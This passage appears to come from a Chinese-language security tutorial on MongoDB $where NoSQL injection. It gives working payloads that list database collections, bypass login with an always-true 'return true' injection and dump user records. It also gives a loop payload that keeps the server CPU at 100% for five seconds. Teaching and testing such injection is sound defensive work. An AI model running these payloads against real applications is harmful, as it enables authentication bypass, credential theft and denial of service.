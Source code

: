 - **MongoDB 2.4 之前**

在 MongoDB 2.4 之前，通过 `$where` 操作符使用 `map-reduce`、`group` 命令可以访问到 Mongo Shell 中的全局函数和属性，如 `db`，也就是说可以通过自定义 JavaScript 函数来获取数据库的所有信息。

如下所示，发送以下数据后，如果有回显的话将获取当前数据库下所有的集合名：

```php
username=1&password=1';(function(){return(tojson(db.getCollectionNames()))})();var a='1
```

- **MongoDB 2.4 之后**

MongoDB 2.4 之后 `db` 属性访问不到了，但我们应然可以构造万能密码。如果此时我们发送以下这几种数据：

```php
username=1&password=1';return true//
或
username=1&password=1';return true;var a='1
```

如下图所示，成功查出所有的用户信息：

![image-20210724003629252](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-677054aebccbcde6814a6fa46e549364518f8938.png)

这是因为发送 payload 进入 PHP 后的数据如下：

```php
array(
    '$where' => "
    function() { 
        var username = '1';
        var password = '1';return true;var a='1';
        if(username == 'admin' && password == '123456'){
            return true;
        }else{
            return false;
        }
    }
")
```

进入 MongoDB 后执行的查询命令为：

```sql
> db.users.find({$where: "function() { var username = '1';var password = '1';return true;var a='1';if(username == 'admin' && password == '123456'){ return true; }else{ return false; }}"})
{ "_id" : ObjectId("60fa9c7b257f18542b68c4b8"), "username" : "admin", "password" : "123456" }
{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "whoami", "password" : "657260" }
{ "_id" : ObjectId("60fa9c85257f18542b68c4ba"), "username" : "bunny", "password" : "964795" }
{ "_id" : ObjectId("60fa9c88257f18542b68c4bb"), "username" : "bob", "password" : "965379" }
> 
```

我们从代码中可以看出，password 中的 `return true` 使得整个 JavaScript 代码提前结束并返回了 `true`，这样就构造出了一个永真的条件并完成了 NoSQL 注入。

此外还有一个类似于 DOS 攻击的 payload，可以让服务器 CPU 飙升到 100% 持续 5 秒：

```javascript
username=1&password=1';(function(){var date = new Date(); do{curDate = new Date();}while(curDate-date<5000); return Math.max();})();var a='1
```
